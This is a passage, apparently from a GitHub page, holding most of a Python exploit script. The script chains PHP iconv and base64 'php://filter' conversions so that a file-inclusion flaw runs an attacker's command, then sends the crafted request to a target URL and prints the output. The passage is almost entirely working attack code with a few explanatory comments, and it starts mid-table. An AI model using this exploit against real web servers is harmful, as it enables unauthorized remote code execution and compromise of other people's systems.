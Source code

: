 ```python
'B': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
'C': 'convert.iconv.UTF8.CSISO2022KR',
'8': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
'9': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
'f': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213',
's': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61',
'z': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS',
'U': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
'P': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213',
'V': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5',
'0': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
'Y': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2',
'W': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2',
'd': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
'D': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
'7': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
'4': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2'
}


# generate some garbage base64
filters = "convert.iconv.UTF8.CSISO2022KR|"
filters += "convert.base64-encode|"
# make sure to get rid of any equal signs in both the string we just generated and the rest of the file
filters += "convert.iconv.UTF8.UTF7|"


for c in base64_payload[::-1]:
filters += conversions[c] + "|"
# decode and reencode to get rid of everything that isn't valid base64
filters += "convert.base64-decode|"
filters += "convert.base64-encode|"
# get rid of equal signs
filters += "convert.iconv.UTF8.UTF7|"

filters += "convert.base64-decode"

final_payload = f"php://filter/{filters}/resource={file_to_use}"

r = requests.get(url, params={
"0": command,
"action": "include",
"file": final_payload
})

print(r.text)
```
### Improvements
